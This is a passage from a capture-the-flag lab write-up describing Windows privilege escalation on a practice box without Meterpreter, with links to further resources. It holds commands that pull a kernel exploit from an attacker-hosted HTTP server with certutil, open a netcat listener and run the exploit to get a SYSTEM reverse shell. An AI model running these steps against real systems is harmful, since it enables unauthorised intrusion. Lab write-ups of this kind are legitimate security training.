 ## Privesc without Meterpreter

- If we go to C:\User\Public we have writing rights and we are able to download an exploit we can ty [this one](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)
- first we download it in our attacking machine
- Then we launch a python simple http server `python3 -m http.server 80`
- And we can download it in our target `certutil.exe -urlcache -f http://10.10.14.8/MS10-059.exe exploit.exe`
- We launch a listener `rlwrap nc -lvp 5556`
- We launch the exploit `exploit.exe 10.10.14.8 5556`
- We get a shell as authority\system:
  ```
  whoami
  nt authority\system
  ```

## Flags

We can get the flags in their usual place (with a win cmd we can use type instead of cat):
- The user one is here `cat c:\\Users\\babis\\Desktop\\user.txt` 
- The root one is here `cat C:\\Users\\Administrator\\Desktop\\root.txt`

## Resources

**As usual there is more than one way to do it :)**

{% embed url="https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/devel-writeup-w-o-metasploit" %} Writeup Devel - Rana Khalil Gitbook {% endembed %}  

**Resource about the exploit**

{% embed url="https://seclists.org/fulldisclosure/2010/Jan/341" %} Kitrap0d Information {% endembed %}  

